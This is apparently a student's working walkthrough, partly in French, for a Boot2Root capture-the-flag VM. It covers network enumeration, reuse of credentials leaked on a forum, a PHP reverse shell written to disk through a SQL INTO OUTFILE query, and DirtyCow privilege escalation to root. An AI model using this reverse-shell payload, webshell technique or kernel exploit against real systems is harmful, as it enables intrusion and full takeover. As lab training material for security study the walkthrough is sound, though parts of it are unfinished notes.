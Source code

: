 # Boot2Root

# Setup

Create a new VM from the ISO

Connect this VM as bridge adapter to be on same network as your host:


Find target's address:
    nmap -sn -PE -v IP_HOST/24

# Enumeration

## Port listing
List ports on the target with nmap

    nmap -sA -O -sV -vv -oN nmap.dump IP_TARGET/24

# Website
## Detect files and directories with gobuster

### Install gobuster

    brew install gobuster

TODO find an installation way that works at school

### Run
    gobuster dir -u http://IP_TARGET/ -w WORDLIST_PATH

find /forum
on https

## Detect files and directories with nikto

Download/install Nikto
    
    brew install nikto

## On the forum

This forum is powered by `My little forum`

We find several posts and one of them is very interesting:
 a dump of the target's connections log .
 See this >>> file <<<
TODO make a script that download the file and make a link here


users in log:
lmezard
root
admin

users in forum:
admin
lmezard
qudevide
wandre
thor
zaz



On the tab `login` we can try to connect as `lmezard` with the password `!q\]Ej?*5K5cy*AJ`.

Success !!


we find her email: `laurie@borstosec.net`

Nmap is finaly over.
Now we can detect several things
21 FTP VSFTPS 2.0.8
22 SSH OPENSSH 5.9p1
80 HTTP Apache 2.2.22
143: IMAP Dovecot imapd
    email dumped: root@born2sec.net
443 HTTP Apache 2.2.22
993 SSL/IMAP Dovecot imapd

We run the script Nikto and find:

/webmail/src/index.php

Version: `1.4.22`

we connect with 
    laurie@born2sec.net
    !q\]Ej?*5K5cy*AJ
Now we found other interesting things:
Some email including root's:
- qudevide@mail.borntosec.net
- ft_root@mail.borntosec.net

Some DB credentials:
user: root 
password: Fg-'kKXBj87E:aJ$

On the **official** website of `squirelMail` we can find that version bellow or equal to `1.4.22` are vulnerable at `arbitrary code execution` referenced as `CVE-2017-7692`.

With some research on this CVE we can easely find an exploit and test it.

On the phpmyadmin page
get a php webshell

Version: `3.4.10.1deb1`

...

Now we need to read this file.
For this purpose we need to look at a vulnerability called `locale file injection`.

We found nothing really interesting.

Sur le Readme de My little forum https://github.com/ilosuna/mylittleforum on peut lire que les permissions du repertoire `templates_c`.

Upload the shell and goto /forum/templates_c/exploit.php?e=cat /etc/passwd

reverse shell:
SELECT "<?php $sock=fsockopen(\"192.168.1.242\",8090);$proc=proc_open(\"/bin/sh -i\", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>" into outfile "/var/www/forum/templates_c/nat4.php";

Set your listener:
    nc -lvnk 8081
Go to https://TARGET_IP/forum/templates_c/nat4.php
You should now have received a connection from the target.



The dirty way:

The linux core under linux 3.9 are all vulnerable to the `dirtyCow` vulnerability.

Download an exploit of the `dirtyCow` vulnerability:
wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c

Edit in the code the variable `username` to the user you want to reset his password.

compile it with:
    gcc -pthread dirty.c -o out -lcrypt

run it, give the new password wait a little and look at `/etc/passwd`.
You should find something like:
root:roK20XGbWEsSM

Run:
    sudo -c /bin/bash

Rentrez votre nouveau mot de passe.

TADAAM you are root now !!

Une fois root

Upgrade your shell:

Run:
- `python -c 'import pty; pty.spawn("/bin/bash")'`.

That's enought to run some command like su or sudo but if you want an even better shell add thoose commands:
- `export TERM=xterm` -- this will give us access to term commands such as clear.
- `Ctrl + Z`. Back in our own terminal we use `stty raw -echo; fg`.

dans /home/LOOKATME/password on trouve:
    lmezard:G!@M6f4Eatau{sF"
Connect as lmezard with 
    su lmezard

Here we have a challenge. An executable that can gives us the next password

# Pour plus tard

Checker le serveur VSFTPD
